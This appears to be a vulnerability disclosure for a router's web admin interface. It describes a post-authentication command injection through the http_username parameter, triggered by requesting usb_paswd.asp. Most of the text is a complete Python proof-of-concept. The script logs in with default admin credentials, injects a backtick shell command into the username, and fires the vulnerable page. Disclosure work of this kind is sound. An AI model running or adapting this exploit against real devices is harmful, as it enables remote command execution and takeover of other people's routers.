 After the user maliciously constructs the parameter http_username, accessing the function usb_paswd_asp in the file usb_paswd.asp will cause post-authentication command injection. The attack can be launched remotely.

![image](https://github.com/user-attachments/assets/fc945338-d12a-49a0-a922-b13768e661f1)![image](https://github.com/user-attachments/assets/0965873e-426b-4a06-ad5a-552589f4b0d6)
Capture packets in the user management interface to modify the user name to malicious commands

![image](https://github.com/user-attachments/assets/72d3e973-9e38-4e72-bb19-c0b7a193a0a1)
![image](https://github.com/user-attachments/assets/890f217b-447c-4118-9924-57af0dca6074)

set username:\`echo HELLOWORLD > /tmp/hacked\`
![image](https://github.com/user-attachments/assets/46208859-b1cf-48cd-b0c3-04db399d752a)
payload = /usb_paswd.asp?share_enable=1&passwd=1&name=1

![image](https://github.com/user-attachments/assets/1d094768-7262-4af3-836b-e69294933fd2)

![image](https://github.com/user-attachments/assets/b8f8c4c5-1b62-43f3-90c6-8770d461ccdf)

#POC


```python
import requests

# POST /login.cgi HTTP/1.1
# Host: 192.168.0.1
# Content-Length: 25
# Cache-Control: max-age=0
# Upgrade-Insecure-Requests: 1
# Origin: http://192.168.0.1
# Content-Type: application/x-www-form-urlencoded
# User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.58 Safari/537.36
# Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
# Referer: http://192.168.0.1/login.html
# Accept-Encoding: gzip, deflate, br
# Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-US;q=0.7
# Cookie: wys_userid=hello,wys_passwd=520E1BFD4CDE217D0A5824AE7EA60632
# Connection: close

# user=admin&password=admin
login_url = "http://192.168.0.1/login.cgi"  
login_headers = {
    "Host": "192.168.0.1",
    "Content-Length": "25",
    "Cache-Control": "max-age=0",
    "Upgrade-Insecure-Requests": "1",
    "Origin": "http://192.168.0.1",
    "Content-Type": "application/x-www-form-urlencoded",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.58 Safari/537.36",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "Referer": "http://192.168.0.1/login.html",
    "Accept-Encoding": "gzip, deflate, br",
    "Accept-Language": "zh-CN,zh;q=0.9,en;q=0.8,en-US;q=0.7",
    "Cookie": "wys_userid=hello,wys_passwd=520E1BFD4CDE217D0A5824AE7EA60632",
    "Connection": "close"
}
login_data = {
    "user": "admin",
    "password": "admin"
}
response = requests.post(login_url, headers=login_headers, data=login_data)
print(response.text)

print("---------------------------------------------------------------------------------------------------")


# GET /webgl.asp?http_username=hello&exec_service=admin-restart&_=1726142513541 HTTP/1.1
# Host: 192.168.0.1
# Accept: application/json, text/javascript, */*
# User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.58 Safari/537.36
# Referer: http://192.168.0.1/index.htm?_1420041819
# Accept-Encoding: gzip, deflate, br
# Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-US;q=0.7
# Cookie: wys_userid=admin,wys_passwd=520E1BFD4CDE217D0A5824AE7EA60632
# Connection: close

cmd = "`echo HELLOWORLD > /tmp/hacked`" 
burp0_url = f"http://192.168.0.1/webgl.asp?http_username={cmd}&exec_service=admin-restart&_=1726142513541"
burp0_headers = {
    "Host": "192.168.0.1",
    "Accept": "application/json, text/javascript, */*",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.58 Safari/537.36",
    "Referer": "http://192.168.0.1/index.htm?_1420041819",
    "Accept-Encoding": "gzip, deflate, br",
    "Accept-Language": "zh-CN,zh;q=0.9,en;q=0.8,en-US;q=0.7",
    "Cookie": "wys_userid=admin,wys_passwd=520E1BFD4CDE217D0A5824AE7EA60632",
    "Connection": "close"
}
response = requests.get(burp0_url, headers=burp0_headers)
print(response.text)

print("---------------------------------------------------------------------------------------------------")

# GET /usb_paswd.asp HTTP/1.1
# Host: 192.168.0.1
# Upgrade-Insecure-Requests: 1
# User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.58 Safari/537.36
# Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
# Accept-Encoding: gzip, deflate, br
# Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-US;q=0.7
# Cookie: wys_userid=admin,wys_passwd=520E1BFD4CDE217D0A5824AE7EA60632
# Connection: close

burp1_url = "http://192.168.0.1/usb_paswd.asp?share_enable=1&passwd=1&name=1"
burp1_headers = {
    "Host": "192.168.0.1",
    "Upgrade-Insecure-Requests": "1",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.58 Safari/537.36",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "Accept-Encoding": "gzip, deflate, br",
    "Accept-Language": "zh-CN,zh;q=0.9,en;q=0.8,en-US;q=0.7",
    "Cookie": "wys_userid=admin,wys_passwd=520E1BFD4CDE217D0A5824AE7EA60632",
    "Connection": "close"
}
response = requests.get(burp1_url, headers=burp1_headers)
print(response.text)
```
